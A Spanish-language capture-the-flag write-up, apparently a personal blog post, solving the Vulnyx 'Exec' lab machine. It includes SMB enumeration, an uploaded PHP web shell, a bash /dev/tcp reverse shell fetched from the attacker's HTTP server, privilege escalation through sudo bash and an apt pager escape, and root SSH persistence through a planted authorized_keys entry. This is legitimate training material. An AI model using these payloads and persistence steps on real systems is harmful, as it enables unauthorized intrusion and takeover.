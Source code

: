 ```yaml
---
title: Vulnyx - Exec
author: estx
date: 2024-04-25 17:51:00 +0800
categories: [Writeup, Vulnyx, Low]
tags: [Linux, 'SMB', 'File Upload' , 'binary abusing']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Low/Exec/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Plex Machine Logo
---
```


Máquina Linux de nivel **Low** de Vulnyx.

Técnicas usadas: **File Upload, Binary Abusing**

### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.63	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```
> Con esto identificamos todos los dispositivos en nuestra red local.

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n 192.168.100.63 -oG puertos`**

  ![](/assets/images/Vulnyx/Low/Exec/01-ports.png)

b. Vemos la versiones de los servicios que se están ejecutando

* **`nmap -p22,80,139,445 -sCV <IP> -oN versiones`**

  ![](/assets/images/Vulnyx/Low/Exec/02-versions.png)


c. En el **puerto 80** no hay algo interesante (Solo la página por defecto), por lo que, investigamos todo sobre el servicio **SMB** (Puerto 445)

```bash
# Primero listamos los directorios disponibles
❯ smbclient -L \\192.168.100.63

Password for [WORKGROUP\root]: <ENTER>

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        server          Disk      Developer Directory
        IPC$            IPC       IPC Service (Samba 4.17.12-Debian)
        nobody          Disk      Home Directories


# Vemos que el directorio "server" puede ser accedido, por lo que, nos conectamos y listamos los recursos disponibles

❯ smbclient \\\\192.168.100.63\\server

Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 25 17:20:01 2024
  ..                                  D        0  Mon Apr 15 10:04:12 2024
  index.html                          N    10701  Mon Apr 15 10:04:31 2024
```

* Si nos decargamos el archivo **index.html** con el comando `get index.html` nos daremos cuenta que es el archivo por defecto del puerto 80. Intuimos entonces que probablemente los archivos de este directorio se ven reflejados en el servicio HTTP. Intentaremos subir un archivo `.php` para ejecutar comandos.

```bash
❯ cat secret.php

<?php
	system($_GET['cmd']);
?>
```

> La función `system` nos permite ejecutar comandos en el sistema. Con **`$_GET['cmd']`** lo que hacemos es indicar que el comando que se va a ejecutar lo indicaremos desde la **URL**. **Ej.** http://192.168.100.63/secret.php?cmd=<COMANDO>
{: .prompt-info }

* Por último, subimos el archivo **secret.php** al servicio SMB con **`put secret.php`**

d. Ahora con **cURL** podemos ejecutar comando en la máquina víctima

```bash
❯ curl -s -X GET "http://192.168.100.63/secret.php?cmd=hostname"
exec
```

* Ahora nos entablamos un reverse shell 👨‍💻

```bash
❯ cat index.html

#!/bin/bash

bash -i >& /dev/tcp/192.168.100.55/4444 0>&1
---------------------------------------------

❯ python -m http.server 80

---------------------------------------------

❯ nc -lvnp 4444
```
> Con esto lo que hacemos es servir el archivo `index.html`, para que al ser requerido por la máquina víctima se ejecute el código **.sh**

* Hacemos que la máquina víctima solicite el archivo

![](/assets/images/Vulnyx/Low/Exec/03-exploit.png)

![](/assets/images/Vulnyx/Low/Exec/04-reverse.png)



### Escalada de Privilegios 💹

1. Hacemos el tratamiento de la TTY para trabajar de manera más cómoda con la reverse shell

```bash
www-data@exec:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@exec:/var/www/html$ ^Z
[1]  + 25443 suspended  nc -lvnp 4444
❯ stty raw -echo;fg
[1]  + 25443 continued  nc -lvnp 4444
                                     reset xterm


www-data@exec:/var/www/html$ export TERM=xterm-256color
www-data@exec:/var/www/html$ source /etc/skel/.bashrc 
www-data@exec:/var/www/html$
```


2. Miramos los permisos a nivel de sudoers de este usuario

```bash
www-data@exec:/var/www/html$ sudo -l

User www-data may run the following commands on exec:
    (s3cur4) NOPASSWD: /usr/bin/bash
```

* Vemos que podemos ejecutar una **bash** como el usuario `s3cur4`

```bash
www-data@exec:/var/www/html$ sudo -u s3cur4 /usr/bin/bash
s3cur4@exec:/var/www/html$ whoami
s3cur4
```

3. Ahora vemos los permisos del usuario `s3cur4`

```bash
s3cur4@exec:/var/www/html$ sudo -l

User s3cur4 may run the following commands on exec:
    (root) NOPASSWD: /usr/bin/apt
```

* Vemos en [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#shell) una forma de escalar privilegio ejecutando **apt**

```bash
s3cur4@exec:/var/www/html$ sudo -u root /usr/bin/apt changelog apt
Get:1 https://metadata.ftp-master.debian.org apt 2.6.1 Changelog [505 kB]
Fetched 505 kB in 2s (241 kB/s)
# Después de ejecutar el comando, se abrirá una pantalla en la cual debemos escribir !/bin/bash
root@exec:/var/www/html# 
```


### Extras 🌟

1. Podemos autenticarnos mediante **SSH** directamente a la máquina víctima:

* Primero, habilitamos el permiso para que **root** pueda autenticarse a través de SSH. Quitamos el **#** y colocamos un **yes**

```bash
root@exec:~# cat /etc/ssh/sshd_config

...
PermitRootLogin yes
...
```

* Ahora, generamos un par de claves RSA en nuestra máquina host

```bash
❯ ssh-keygen

# Asignamos el permiso 600 a la clave id_rsa privada
❯ chmod 600 id_rsa
```

* Copiamos el contenido de la clave id_rsa pública y lo ponemos en un archivo **authorized_keys** en el directorio /root/.ssh

```bash
root@exec:~/.ssh# echo -n 'ssh-ed25519 ... root@kali' > authorized_keys
```


* Finalmente, nos podemos autenticar directamente por ssh como el usuario **root**

```bash
❯ ssh root@192.168.100.63 -i id_rsa
root@exec:~#
```